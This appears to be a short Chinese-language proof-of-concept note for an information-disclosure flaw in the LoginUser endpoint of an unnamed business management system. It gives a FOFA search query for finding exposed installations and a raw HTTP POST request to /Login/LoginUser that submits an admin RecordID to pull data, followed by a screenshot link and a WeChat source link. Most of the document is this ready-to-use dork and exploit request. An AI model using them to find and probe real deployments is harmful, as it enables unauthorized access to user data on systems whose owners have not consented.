 # 某业务管理系统LoginUser存在信息泄露漏洞

某业务管理系统LoginUser存在信息泄露漏洞

## fofa

```yaml
body="/Content/LayuiAdmin/login/css/index.css"
```

## poc

```
POST /Login/LoginUser HTTP/1.1
Host: your-ip
Content-Length: 79
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"RecordID":"admin","password":"11111","undefined":"登录","language":"zh-CN"}
```

![image-20240821111211654](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408211112724.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/L9_i0oTvhkAAPu94YzAL4Q